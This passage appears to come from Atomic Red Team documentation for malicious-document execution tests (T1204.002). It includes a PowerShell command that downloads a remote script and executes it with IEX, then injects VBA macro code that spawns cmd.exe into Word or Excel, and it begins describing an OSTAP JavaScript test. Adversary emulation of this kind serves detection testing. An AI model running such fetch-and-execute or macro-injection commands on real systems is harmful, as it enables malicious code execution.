 | Name       | Description                      | Type   | Default Value |
| ---------- | -------------------------------- | ------ | ------------- |
| ms_product | Maldoc application Word or Excel | string | Word          |

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "  a = Shell(`"cmd.exe /c choice /C Y /N /D Y /T 3`", vbNormalFocus)"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft #{ms_product} must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```

<br/>
<br/>

## Atomic Test #4 - OSTAP JS version

Malicious JavaScript executing CMD which spawns wscript.exe //e:jscript
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows

**auto_generated_guid:** add560ef-20d6-4011-a937-2c340f930911

#### Inputs:

| Name       | Description                      | Type   | Default Value                       |
| ---------- | -------------------------------- | ------ | ----------------------------------- |
| jse_path   | jse file to execute with wscript | path   | C:&#92;Users&#92;Public&#92;art.jse |
| ms_product | Maldoc application Word or Excel | string | Word                                |
